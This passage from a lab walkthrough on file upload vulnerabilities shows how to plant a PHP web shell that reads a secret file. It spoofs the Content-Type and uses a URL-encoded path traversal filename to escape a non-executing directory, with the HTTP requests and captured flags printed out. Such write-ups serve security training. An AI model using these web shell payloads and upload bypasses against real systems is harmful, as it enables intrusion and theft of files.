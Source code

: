         <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    - Send the second **/my-account/avatar POST** request to the **Repeater**.
    - Set the **Content-Type** to **image/png** and repeat the request, the message
    ***The file avatars/shell.php has been uploaded.*** will appear.

    ```plaintext
    aO9Yu9pRE7c7FyVZH1cKN0m3xrswhbwH
    ```

3. #### **Web shell upload via path traversal**

    - Upload an image and take note of the URL flow and the parameters sent, the message  
    ***The file avatars/1.png has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="1.png"
        Content-Type: image/png

        PNG
        ...
    ...
    https://<lab_url>/files/avatars/1.png       GET
    ...
    ```

    - Upload the shell, the message  
    ***The file avatars/shell.php has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="shell.php"
        Content-Type: application/x-php

        <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    - Access the file and note the shell isn't executed  
    (notice that the code is returned as plain text).
    - Send the second **/my-account/avatar POST** request to the **Repeater**.
    - Set the **filename** to **%2e%2e%2fshell.php** (**url encoded**) and repeat the request, the message
    ***The file avatars/../shell.php has been uploaded.*** will appear.

    ```plaintext
    bCZjeULdhgmTcLNA4xP7hXs67HfFcpNZ
    ```

